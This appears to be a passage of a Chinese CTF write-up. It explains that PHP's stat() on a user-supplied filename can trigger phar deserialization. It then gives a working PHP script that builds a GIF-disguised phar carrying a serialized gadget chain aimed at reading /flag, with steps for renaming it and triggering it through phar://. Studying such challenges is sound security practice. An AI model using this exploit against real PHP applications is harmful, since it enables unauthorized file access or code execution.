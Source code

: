```php
	public function __destruct() { 
		echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>"; 
	} 
} 
	$filename = $_POST["file"]; 
	$stat = @stat($filename);-->
```

`stat() ` 这个php函数用的很少, 用于返回关于文件的信息, 但是它也可以 `触发 phar 文件`, 这里主要是考察了通过 zip 或 tar 文件包装的phar文件进行触发

这里利用魔法函数 ：destruct- ->toString - ->invoke

payload:

```php
<?php

class View {
	public $fn = '/flag';
}

class Fun{
	public $fun;
}

$a = new View();
$b = new Fun();
$b->fun = $a;
$c = new Fun();
$c->fun = $b;

$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89A"."__HALT_COMPILER();?>"); //设置stub
$phar->setMetadata($c); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering(); //签名自动计算
?>
```
这里不能有<? 和php但是不影响

![](https://img-blog.csdnimg.cn/3afbabd0e76c41ec9aa06f5d170d3966.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
将生成的phar文件修改为zip或tar后缀，利用 `phar://`


# 魔女
不会

![](https://img-blog.csdnimg.cn/8b55601e937546fcb9ebc2b570a9c8d0.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

抓包发现，修改m参数进行注册

